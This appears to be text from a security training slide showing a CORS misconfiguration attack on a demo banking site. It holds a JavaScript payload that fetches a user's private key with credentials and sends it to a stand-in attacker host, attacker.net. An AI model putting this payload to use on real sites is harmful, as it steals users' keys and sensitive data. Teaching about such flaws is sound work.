

# Or the attacker can exploit can access private keys and get sensitive information of the user.   var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','http://www.zero.webappsecurity.com/api/getPrivateKey',true); req.withCredentials = true; req.send(); function reqListener() { location='//attacker.net/log?key='+this.responseText; };